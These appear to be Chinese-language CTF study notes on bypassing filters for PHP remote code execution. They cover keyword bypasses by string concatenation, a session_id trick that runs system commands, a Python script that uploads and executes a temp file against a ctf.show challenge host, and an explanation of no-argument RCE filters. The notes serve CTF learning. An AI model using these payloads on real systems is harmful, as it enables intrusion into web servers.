 ### 绕过关键字之点连接字符串（亲测没用）

```php
(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
```

### 2.利用session ?c=session_start();system(session_id()); 并且 Cookie: PHPSESSID=ls 读取文件的话需要利用其他姿势了，我实验不行，说有无效参数。。。

### 3.通过post上传临时文件并且执行。

通过post上传临时文件并且执行。原理：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

脚本： （与上传文件一样）

```
import requests

while True:    
    url = "http://44875025-cec2-4154-8d87-34cbdcff5f27.chall.ctf.show/?c=.+/???/????????[@-[]"    
    r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})    
    if r.text.find("flag") >0:        
        print(r.text)        
        break
```

## 无参数rce：

### 无参数RCE题目特征：

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {    
    eval($_GET['star']);
}

正则表达式 [^\W]+\((?R)?\) 匹配了一个或多个非标点符号字符（表示函数名），后跟一个括号（表示函数调用）。其中 (?R) 是递归引用，它只能匹配和替换嵌套的函数调用，而不能处理函数参数。使用该正则表达式进行替换后，每个函数调用都会被删除，只剩下一个分号 ;，而最终结果强等于；时，payload才能进行下一步。简而言之，无参数rce就是不使用参数，而只使用一个个函数最终达到目的。
scandir()可以使用里面不含参数
scandir('1')不可以使用，里面含有参数1，无法被替换删除



相关函数简要介绍：

#### 方法一：scandir()  最常规的通解

#### 方法二：session_id()

##### 法一：hex2bin（）

##### 法二：读文件

#### 方法三：getallheaders()
